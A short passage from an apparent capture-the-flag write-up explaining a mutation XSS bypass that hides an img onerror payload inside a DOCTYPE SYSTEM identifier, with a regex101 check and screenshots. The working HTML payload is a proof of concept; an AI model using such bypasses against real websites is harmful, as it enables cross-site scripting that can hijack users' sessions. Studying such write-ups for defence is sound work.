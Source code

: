 If we copy one of the payloads in regex debugger like [regex101.com](https://regex101.com/), we can visualize the bypass:

```html
<!DOCTYPE html SYSTEM "><xss>">
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/PUCTF-2025/images/Pasted%20image%2020250429180659.png)

With this information, we should be able to perform mXSS with the following payload:

```html
<!DOCTYPE html SYSTEM "><img src=x onerror=alert(document.domain)>">
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/PUCTF-2025/images/Pasted%20image%2020250429181701.png)
